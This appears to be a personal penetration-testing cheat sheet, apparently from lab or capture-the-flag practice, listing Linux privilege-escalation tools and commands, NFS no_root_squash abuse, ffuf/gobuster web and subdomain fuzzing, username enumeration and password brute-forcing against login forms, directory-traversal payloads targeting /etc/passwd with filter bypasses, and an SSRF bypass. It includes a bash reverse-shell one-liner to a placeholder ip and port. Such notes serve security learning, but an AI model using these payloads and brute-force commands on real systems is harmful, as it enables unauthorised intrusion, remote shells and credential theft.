 # Useful-git-links

## Priviledge escalation Linux:
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS <br>
LinEnum: https://github.com/rebootuser/LinEnum<br>
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester<br>
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration<br>
Linux Priv Checker: https://github.com/linted/linuxprivchecker<br>

Linux vuln exploit: https://gtfobins.github.io/

# Useful commands

## Priviledge escalation Linux:
Exploit for every sudo app for the user: ```sudo -l``` <br>
Reverse shell command:  ```bash -i >& /dev/tcp/"ip"/"port" 0>&1```<br>
Find SUID bit: ```find / -type f -perm -04000 -ls 2>/dev/null```<br>
Find capabilities: ``getcap -r / 2>/dev/null`` <br>

### NFS
Find if there is NFS on : `cat /etc/exports`  (Need "no_root_squash" option on shared folder)
On another machine: 

    showmount -e "ip"
    mkdir /tmp/attackerbackup
    mount -o rw "ip":/"shared_folder" /tmp/attackerbackup
    Then add a new program that launch a shell and compile it, run it on the victim machine

## Content discovery web
Wordlist pour TOUT: https://github.com/danielmiessler/SecLists/tree/master

    ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.28.209/FUZZ

    dirb http://10.10.28.209/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

    gobuster dir --url http://10.10.28.209/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

## Subdomain discovery
Automated tool: https://github.com/aboul3la/Sublist3r

    ./sublist3r.py -d <website url>
Virtual hosts: 

    ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://MACHINE_IP
## Username discovery
Fuzzing github: https://github.com/ffuf/ffuf

    ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.229.11/customers/signup -mr "username already exists" 
    
-w: wordlist, -X: request method, -d:data, -H: Extra headers, -u: URL, -mr: success text to find in the page if username already used 

## Authentication bypass

    ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.229.11/customers/login -fc 200

-w: wordlist (:W1 = username, :W2 = passwords), -fc: check for HTTP Status Code to filter (in this case, filter 200)

## Hash craking
https://crackstation.net/

## File Inclusion
Files to aim which a Directory Traversal
![image info](Useful_files_from_Linux_fs.png)

    /etc/passwd
    ../../../../etc/passwd
    ../../../../etc/passwd%00
    ....//....//....//....//etc/passwd (Filter that replace ../ by empty string)
    <forced directory>../../../../etc/passwd (When a directory is forced, include it)

## SSRF
Bypass starting URL constraints (cannot start by /private) : x/../private

